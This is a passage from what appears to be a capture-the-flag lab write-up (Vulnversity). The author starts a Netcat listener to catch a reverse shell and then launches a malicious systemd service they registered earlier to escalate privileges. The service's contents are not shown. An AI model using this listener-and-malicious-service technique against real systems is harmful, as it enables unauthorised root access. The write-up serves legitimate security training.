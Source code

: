 ![](/images/vulnversity/vulnversity_009.jpg)

Once the service was registered successfully, I was ready to execute the script. I had created a new Netcat listening on the local session prior to running the service command.
```bash
nc -lvnp 9999
```
Then proceed to start the malicious service through the shell.
```bash
systemctl start rooot.service
```

![](/images/vulnversity/vulnversity_010.jpg)
